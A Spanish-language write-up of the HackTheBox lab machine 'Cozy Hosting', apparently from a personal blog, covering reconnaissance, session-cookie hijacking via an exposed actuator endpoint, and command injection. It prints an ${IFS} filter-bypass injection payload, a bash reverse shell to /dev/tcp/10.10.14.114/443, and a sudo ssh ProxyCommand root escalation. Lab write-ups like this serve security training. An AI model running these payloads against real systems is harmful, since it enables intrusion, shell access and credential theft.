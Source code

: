 ```yaml
---
title: 'Cozy Hosting'
description: 'Write-Up de la máquina Cozy Hosting de HackTheBox'
pubDate: 'Sep 09 2023'
image: '/htb/cozy_hosting/placeholder.png'
heroImage: '/htb/cozy_hosting/placeholder.png'
private: false
category: 'writeups'
tags: ['htb']
---
```


La máquina Cozy Hosting, fue una máquina de temporada de HackTheBox de dificultad fácil declarada por la plataforma.

## Fase de reconocimiento
### Escaneo de la máquina
Lo que siempre se debe hacer al inicio es realizar una traza TCP por ping para detectar si la máquina está activa y ver ante que sistema operativo nos enfrentamos mediante el TTL, el cual al ser de 63 la identificamos como una máquina Linux.

![Captura ping](https://i.imgur.com/9KDP4Ba.png)

Confirmando que ya poseemos conexión con la máquina, procedemos a realizar un escaneo con nmap, primero comenzamos con por el protocolo TCP y luego, en el caso de no encontrar nada, usamos UDP.

Comenzamos escanenando todo el rango de puertos y le agregamos los siguientes parámetros para un escáneo rápido:

```bash
-p- # Para barcar los 65535 puertos
--open # Solo obtener los puertos con estado open
-sS # Realizar escaneo TCP SYN SCAN
--min-rate 5000 # Envío mínimo de 5000 paquetes por segundos
-v # Verbose
-n # Evitar resolución DNS
-Pn # Evitar host discovery
-oG # Exporte en formato greppeable 
# para luego usar extractPorts
```

###### [!] Existen casos en los que usar 5000 paquetes es demasiado, en esos casos reducir a la mitad.
###### [!] ExtractPorts es un script creado por s4vitar para la rápida extracción de puertos de una captura de nmap [link](https://gist.github.com/Nileath/8f3e8c135963636cda3d2810e9a3824f)


![Captura nmap](https://i.imgur.com/u38NVLO.png)

Con esto ya sabemos que tiene un servicio SSH corriendo (puerto 22) y un servidor web (puerto 80), de todas formas siempre es recomendable obtener más información de estos servicios, para eso usamos los scripts básicos de reconocimiento y versionado de nmap
```bash
-sC # Reconocimiento
-sV # Versionado

-sCV # Ambos
```

![Captura nmap](https://i.imgur.com/nQYcNoV.png)

Al mismo tiempo, para agilizar, podemos ir escaneando la web con la herramienta `whatweb`, la cual nos entrega información sobre el sitio y también, en este caso, que se está generando virtual hosting y se tiene una redirección a `cozyhosting.htb`, por lo cual debemos agregarlo en el archivo `/etc/hosts` del sistema:

![Captura whatweb](https://i.imgur.com/eCcePfM.png)

El escaneo con el host:
![Captura whatweb con el hosting correcto](https://i.imgur.com/AcCS60V.png)

También podemos escanear la web con `wappalizer`, que es una extensión tanto [firefox](https://addons.mozilla.org/es/firefox/addon/wappalyzer/) como para [chrome](https://chrome.google.com/webstore/detail/wappalyzer-technology-pro/gppongmhjkpfnbhagpmjfkannfbllamg)

![Captura wappalizer](https://i.imgur.com/9Dnk5Cf.png)

Como podemos ver, nos encontramos ante un sistema Ubuntu, con un servidor nginx versión 1.18.0 y también vemos un email `info@cozyhosting.htb`. Toda esta información debemos recopilarla ya que nos puede servir.

En un vistazo rápido por la web, podemos ver un llamativo botón de login en el header, dentro del home no encontramos nada más que nos pueda ser útil.

### Accediento al sitio
Ya en el panel de login, podemos probar las credenciales genéricas y ver si nos responde algún mensaje o error que nos de más información, pero probando lo básico nos damos cuenta que necesitaremos alguna credencial.

![Captura panel de login](https://i.imgur.com/IENctZd.png)

Luego de probar y ver las respuestas, nos percatamos que se está almacenando, en el apartado de Storages/Cookies, una cookie de sesión, lo cual nos puede dar un indicio de como vulnerar este panel
![Captura panel storage](https://i.imgur.com/YbqRqWn.png)

De todas formas, siempre es recomendable realizar un Fuzzing a la web, para ver si podemos encontrar alguna ruta que nos pueda entregar más información. Comenzamos con wfuzz, usando hilos y con el diccionario de [SecList](https://github.com/danielmiessler/SecLists), con el cual usaremos los que se encuentran en `Discovery/Web-Content`, yo suelo usar los siguentes:

- quickhits.txt
- directory-list-2.3-medium.txt
- directory-list-2.3-big.txt

![Captura wfuzz](https://i.imgur.com/txrKAvr.png)

Luego de usar el primer diccionario, podemos ver una ruta llamada `actuator` en el cual vemos varias subrutas que nos pueden interesar

![Captura ruta /actuator](https://i.imgur.com/Yj4cyfF.png)

La mayoria de rutas tienen información, pero recordando lo que habiamos visto anteriormente sobre la cookie de sesión, la ruta `/session` nos entrega información valiosa, la cookie de un usuario
![Captura cookie](https://i.imgur.com/uAFZpWk.png)

Ya con esta cookie, la reemplazamos por la que tenemos en el navegador y ya podemos acceder al panel de administración
![Captura panel de administración](/htb/cozy_hosting/admin_panel.png)

## Fase de explotación
### Accediendo a un usuario
Una vez dentro del panel de administración, vemos al pie de la página un formulario de una conexión SSH, el cual al intentar enviar datos, vemos que tiene validaciones
![Captura formulario web](https://i.imgur.com/zkk7hSZ.png)

Si lo interceptamos con BurpSuite e intentamos enviar nuestros datos, vemos que responde un 302 e indica un timeout luego de seguir la redirección, pero si intentamos enviar datos no esperados, podemos ver que al no ingresar un host, no procesa la solicitud, pero si evitamos enviar un username, podemos ver un mensaje interesante:
![Captura burpsuite sin username](https://i.imgur.com/fgq4ji8.png)
Pero al intentar ejecutar algun comando, vemos que tiene una pequeña validación que evita los espacios en blanco, por lo cual nos complica un poco el cómo ejecutar un comando para acceder a la máquina.
Pero aún disponemos de la variable de [IFS de linux](https://bash.cyberciti.biz/guide/$IFS), la cual nos sirve para agregar los espacios que requerira nuestro payload, por lo cual usaremos lo siguiente

```bash
# Lo que buscamos
;echo "<BASE64_PAYLOAD>" | base64 -d | bash;

# Ya transformado
;echo${IFS}"<BASE64_PAYLOAD>"|base64${IFS}-d|bash;
```

Probando un curl hacia nuestra máquina, vemos que nuestro payload funciona.
![Captura curl](https://i.imgur.com/z3awMFF.png)

Por lo cual ya podremos ejecutar una reverse shell para acceder a la máquina víctima
```bash
# Payload a usar en base64
echo -n "/bin/bash -l>/dev/tcp/10.10.14.114/443 0<&1 2>&1" | base64
```
###### [!] En el caso de que tu reverse shell generada con base64 tenga un símbolo de +, debes modificarlo para que no esté o el validador te indicará que no se permiten espacios
###### [!] En mi caso eliminé los espacios del -l y el > y ya no mostró ese símbol

Una vez dentro de la máquina, vemos que estamos con el usario `app` y debemos llegar al usuario `josh`, el cual podemos ver listando el directorio `/home`

Justo dentro del directorio en donde obtenemos el acceso, `/app`, podemos ver un archivo llamado `cloudhosting-0.0.1.jar` el cual podemos investigar para buscar información, alguna credencial o algun indicio para escalar privilegios.

![Captura directio /app](https://i.imgur.com/7Zz9fTO.png)

Por lo cual levantamos un pequeño servidor http con python en la máquina víctima, para poder descargar el fichero desde el navegador de forma más cómoda
```bash
python3 -m http.server 4000
```
![Captura server http con python](https://i.imgur.com/NPhgOQo.png)

Ya obtenido el archivo jar, extraemos su contenido con el comando jar
```bash
jar -xf cloudhosting-0.0.1.jar
```

Y revisando sus ficheros, vemos el siguiente fichero `BOOT-INF/classes/application.properties`, en el cual vemos las credenciales de PostgreSql
![Captura archivo application.properties](https://i.imgur.com/fRyLstJ.png)

Si nos conectamos al postgre y le indicamos la contraseña, vemos que podemos acceder
```bash
psql -h localhost -U postgres -p 5432
```

Listando las bases de datos, podemos ver una llamada cozyhosting, y dentro de ella una tabla de usuarios, el cual al listar podemos ver 2 usuarios y sus credenciales encriptadas, por lo cual podriamos probar con john y tratar de desencriptarlas por fuerza bruta.
![Captura tabla usuarios](https://i.imgur.com/k2zm9RD.png)

Preparamos un archivo, en mi caso lo llamé `hash.txt`, y se vería de la siguiente manera:
![Captura fichero hash.txt](https://i.imgur.com/KiqE4P1.png)

Vemos que una puede romperla sin problemas y es la del usuario admin
![Captura john](https://i.imgur.com/NeztBt5.png)

Si la probamos con el usuario josh, podremos ver que nos deja acceder y podremos ver la flag de usuario en su home
![Captura home Josh](https://i.imgur.com/8B1nkup.png)

### Obteniendo Root
La escalada a root de está máquina es bastante sencilla, ya que si usamos el comando `sudo -l` podremos ver que `josh` puede ejecutar como root el comando ssh y si buscamos en [GTFObins](https://gtfobins.github.io/gtfobins/ssh/) podremos ver el siguiente comando:
```bash
sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
```
El cual al ejecutarlo, ya podremos tener acceso a root y por lo tanto a la flag.
![Captura root](https://i.imgur.com/Gi0xj5A.png)